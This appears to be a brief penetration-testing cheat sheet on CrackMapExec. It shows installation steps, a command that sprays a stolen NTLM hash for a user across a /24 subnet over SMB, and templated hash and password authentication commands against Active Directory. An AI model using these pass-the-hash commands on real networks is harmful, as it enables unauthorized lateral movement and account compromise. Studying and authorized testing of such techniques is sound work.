


crackmapexec: test credentials across the network
CrackMapExec
Site:
https://github.com/byt3bl33d3r/CrackMapExecapt-get update
apt-get install crackmapexec --fix-missing
With the below credentials stolen we can mount the attack
crackmapexec smb 192.168.1.0/24 -u danie -H F99C08F99EBC65182E969E9021E827F3
-H → To see if the hash of the user danie can be used to authenticate anywhere on the network
Active Directory:
root@kali:/# crackmapexec 192.168.1.0/24 -u <username> -d <domain> -H <hash> --local
root@kali:/# crackmapexec 192.168.1.0/24 -u <username> -d <domain> -p <password>